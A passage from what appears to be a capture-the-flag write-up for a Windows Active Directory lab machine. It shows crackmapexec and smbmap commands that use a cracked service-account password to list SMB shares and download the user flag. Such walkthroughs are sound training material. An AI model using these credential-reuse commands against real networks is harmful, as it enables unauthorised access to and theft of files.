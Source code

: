 ```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
```

![crackmapexec_svg_tgs_shares](screenshots/crackmapexec_svg_tgs_shares.png)

We identify access to the **Users** share. We list its contents:

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop/
```

![user_flag_desktop](screenshots/user_flag_desktop.png)

Inside, we find and download the user flag:

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt
```
